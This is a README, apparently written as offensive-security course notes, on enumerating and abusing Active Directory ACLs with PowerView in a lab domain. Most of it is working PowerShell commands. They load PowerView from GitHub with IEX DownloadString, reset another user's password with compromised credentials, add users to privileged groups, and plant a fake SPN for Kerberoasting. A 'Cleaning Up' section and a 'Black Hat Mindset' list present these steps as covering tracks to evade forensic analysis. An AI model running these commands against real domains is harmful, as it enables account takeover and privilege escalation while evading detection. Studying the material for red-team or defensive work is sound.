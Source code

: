 # Active Directory ACL Enumeration and Tactics

This README focuses on enumerating Access Control Lists (ACLs) to identify objects with modifiable permissions and exploiting them to change passwords, add group members, or manipulate Service Principal Names (SPNs).

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating ACLs](#enumerating-acls)
- [Exploiting ACLs](#exploiting-acls)
- [Cleaning Up](#cleaning-up)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

ACLs in Active Directory define permissions for objects like users, groups, and computers. Weak ACLs can allow attackers to modify passwords, add users to privileged groups, or create SPNs for Kerberoasting. This guide uses PowerView and PowerShell to enumerate and exploit ACLs, assuming you have compromised credentials (e.g., `INLANEFREIGHT\wley`).

## Setup and Prerequisites

- **Environment**: Windows host with PowerShell and Active Directory module.
- **PowerView**: Load into memory:
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
  ```
- **Active Directory Module**: Install via RSAT tools and import with `Import-Module ActiveDirectory` (Windows host).
- **PowerShell**: Run with administrative privileges (right-click > "Run as Administrator").
- **Credentials**: Use compromised credentials (e.g., `INLANEFREIGHT\wley` with `Pwn3d_by_ACLs!`) to perform modifications.
- **Text File**: Prepare a file (e.g., `ad_users.txt`) with usernames for batch processing.

## Enumerating ACLs

Identify objects with modifiable permissions using PowerView and PowerShell.

```powershell
# Find interesting domain ACLs
Find-InterestingDomainAcl

# Import PowerView and get SID for wley user
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley

# Find domain objects where wley has rights
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# Map GUID to readable right
$guid = "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid | ?{$_.rightsGuid -eq $guid} | fl

# Discover domain object ACLs with resolved GUIDs
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# Enumerate users and save to file
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# Loop through users to get ACL information
foreach($line in [System.IO.File]::ReadLines("C:\Users\Desktop\ad_users.txt")) {
    get-acl "AD:$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\wley'}
}
```

## Exploiting ACLs

Manipulate objects using identified permissions.

```powershell
# Create credential object for wley
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)

# Create SecureString for new password
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Change user password
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

# List group members
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

# Add user to group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose

# View group members
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

# Create fake SPN
Set-DomainObject -Credential $Cred -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

## Cleaning Up

Remove changes to avoid detection.

```powershell
# Remove fake SPN
Set-DomainObject -Credential $Cred -Identity adunn -Clear serviceprincipalname -Verbose

# Remove user from group
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred -Verbose
```

## Converting ACL Data

Interpret ACLs in a readable format.

```powershell
# Convert SDDL string to readable format
ConvertFrom-SddlString
```

## Black Hat Mindset

- **Hunt Weak ACLs**: Target objects with rights assigned to low-privileged users (e.g., `wley`) for escalation.
- **Exploit Privileges**: Change passwords or add users to groups to gain access to sensitive resources.
- **Create Opportunities**: Add SPNs to enable Kerberoasting attacks on targeted accounts.
- **Cover Tracks**: Remove modifications post-exploitation to evade forensic analysis.

## Resources

- PowerView Documentation
- ACL Exploitation
- PowerShell Security Guide
- Active Directory Attack Techniques

